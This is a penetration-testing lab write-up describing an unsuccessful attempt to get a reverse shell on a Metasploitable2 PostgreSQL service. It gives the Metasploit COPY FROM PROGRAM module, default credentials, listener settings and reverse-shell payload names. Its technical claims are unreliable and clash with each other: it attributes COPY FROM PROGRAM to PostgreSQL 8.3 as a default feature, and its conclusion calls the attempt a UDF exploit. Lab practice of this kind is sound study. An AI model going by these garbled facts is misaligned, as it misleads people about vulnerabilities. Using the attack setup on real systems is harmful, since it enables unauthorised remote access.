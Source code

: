 # PostgreSQL RCE via COPY FROM PROGRAM – Attempted Exploitation

# Objective

Leverage PostgreSQL’s `COPY FROM PROGRAM` feature on the Metasploitable2 target to execute a reverse shell payload and gain remote access.


# Vulnerability Summary

- **Target Port:** `5432/tcp`
- **Service:** PostgreSQL 8.3.0 – 8.3.7
- **Vuln Feature:** `COPY FROM PROGRAM` (enabled by default in older PostgreSQL)
- **Exploit Module:** `exploit/multi/postgres/postgres_copy_from_program_cmd_exec`
- **MITRE Mapping:** 
  - **T1190** – Exploit Public-Facing Application
  - **T1059.004** – Command & Scripting Interpreter: Unix Shell


# Attempted Exploitation

**Metasploit Configuration:**

- `RHOSTS`: 192.168.6.3
- `RPORT`: 5432
- `USERNAME`: postgres
- `PASSWORD`: postgres
- `LHOST`: 192.168.6.4
- `LPORT`: 4460 (also tested others)
- Payloads tried:
  - `cmd/unix/reverse_netcat`
  - `cmd/unix/reverse_perl`
  - `linux/x86/meterpreter/reverse_tcp` (incompatible)


# Outcome

- Exploit runs and reports: `Exploit completed, but no session was created`
- No reverse shell received in any attempt
- No listener connection triggered on Kali box


# Troubleshooting Notes

- Verified PostgreSQL was accessible (`nc -vz 192.168.6.3 5432`)
- Confirmed credentials are correct
- Verified LHOST and LPORT settings
- Target likely lacks required binaries (`nc`, `perl`)
- Firewall or routing not the issue (host pinged successfully)


# Conclusion

Exploit attempts using Metasploit module for PostgreSQL UDF failed consistently.

Possible causes:
- Lack of `nc` or `perl` on target
- Misconfigured or limited PostgreSQL features
- Module instability

This path is documented as **unsuccessful**, but the attack surface and credentials remain valid for future manual exploitation (e.g., through `psql` with interactive SQL commands).

